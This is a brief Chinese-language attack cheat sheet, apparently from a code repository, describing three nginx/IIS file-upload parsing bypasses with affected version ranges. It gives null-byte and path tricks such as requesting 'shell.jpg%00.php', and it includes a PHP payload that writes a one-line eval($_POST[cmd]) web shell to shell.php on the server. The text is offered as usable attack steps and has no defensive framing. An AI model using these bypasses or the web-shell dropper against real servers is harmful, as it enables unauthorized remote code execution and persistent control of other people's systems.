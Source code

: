 ### nginx_1

利用范围:
- Nginx 0.5.*
- Nginx 0.6.*
- Nginx 0.7 <= 0.7.65
- Nginx 0.8 <= 0.8.37
  
以上Nginx容器的版本下，上传一个在waf白名单之内扩展名的文件shell.jpg，然后以
shell.jpg%00.php进行请求。

### nginx_2

利用范围
- Nginx 0.8.41–1.5.6  

以上Nginx容器的版本下，上传一个在waf白名单之内扩展名的文件shell.jpg，然后以
shell.jpg%20%00.php进行请求。

### nginx_3

利用范围：
- IIS 7.0/7.5且Nginx < 0.8.3
  
默认php配置文件cgi.fix_pathinfo=1时，上传一个名字为wooyun.jpg，内容为
```php
<?PHP 
fputs(fopen('shell.php','w'),'<?phpeval($_POST[cmd])?>');
?>
```
访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php